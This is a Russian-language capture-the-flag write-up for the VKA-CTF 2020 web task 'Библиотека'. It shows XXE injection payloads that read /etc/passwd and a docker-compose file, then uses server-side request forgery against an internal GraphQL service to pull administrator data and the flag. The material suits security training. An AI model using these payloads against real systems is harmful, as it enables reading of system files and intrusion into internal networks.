




## Библиотека

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| VKA-CTF`2020 | Библиотека | Web | 4-5 курс |

### Описание
> Автор: [ 𝕂𝕣𝕒𝕦𝕤𝕖 ]
>
> В этой [библиотеке](https://army-library.vkactf.tk) собраны лучшие произведения о войне. Совсем недавно разработчики добавили возможность создавать профили пользователей. Интересно, а какую литературу читает сам администратор?
>
> Файлы приложения находятся в `/src/`

### Решение



Обновление пользовательский данных в профиле уязвимо к XXE инъекции. Так как приложение отвечает новым именем пользователя, когда происходит ошибка на сервере, либо имя пользователя уже существует, то мы можем использовать это поле для инъекции. 



Если изменить заголовок `content-type` на `application/xml`, а содержимое запроса на 
```xml
<root><new_name>I want XXE</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```
то мы получим успешное изменение пользовательских данных


Так как приложение написано на языке `python`, то попробуем найти приложение на сервере и прочитать его.

Используя следующую полезную нагрузку можем прочитать список пользователь сервера `/etc/passwd`

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><new_name>&xxe;</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```



Учитывая подсказку в описании таска и попытав немного удачи находим приложение `app.py`

Изучив логику приложения, замечаем, что оно общается с помощью `GraphQL` с другим приложением по адресу, указанному в переменной окружения `app.config["API"]`

Используя [это](https://apis.guru/graphql-voyager/) либо другие приложения (либо изучив код), можем узнать схемы запросов к этому `api`. Информация о пользователе получается с помощью запроса `findUser`, который использует в качестве аргумента имя пользователя
```
{findUser(name:"admin"){name password img description}}
```

Узнав логин и пароль администратора получаем доступ к его аккаунту


Изучив подсказку, попробуем найти файл `docker-compose.yml`, чтобы узнать информацию о других контейнерах

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file://src/docker-compose.yml">
]>
<root><new_name>&xxe;</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```

Видим, что все 3 контейнера находятся в одной сети `custom_network_library`

Исходя из этого, можем обратиться к контейнеру `database-dev` по его имени и получить информацию о пользователе `admin`

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "http://database-dev:5000/?query=%7BfindUser(name:%22admin%22)%7Bdescription%7D%7D">
]>
<root><new_name>&xxe;</new_name><new_email>lol@kek.oru</new_email><new_description>I want flag</new_description><new_password>hard password</new_password></root>
```



**Флаг:**

>vka{xx3_15_d4n9320u5_f02_7h3_4pp11c4710n}